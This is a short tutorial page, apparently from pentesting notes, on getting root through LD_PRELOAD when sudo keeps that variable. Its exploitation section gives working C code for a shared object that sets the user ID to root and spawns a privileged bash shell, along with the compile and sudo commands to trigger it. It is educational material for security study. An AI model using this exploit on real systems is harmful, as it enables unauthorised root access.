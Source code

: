 # LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

## Limitations

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l

{% hint style="info" %}
Note that the env\_keep option includes the LD\_PRELOAD environment variable.
{% endhint %}

![](../../../../.gitbook/assets/env1.png)

### Exploitation

Create a file (preload.c) with the following contents:

`#include <stdio.h>`\
`#include <sys/types.h>`\
`#include <stdlib.h>`\
`void _init() {`\
`unsetenv("LD_PRELOAD");`\
`setresuid(0,0,0);`\
`system("/bin/bash -p");`\
`}`

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

![](../../../../.gitbook/assets/env2.png)
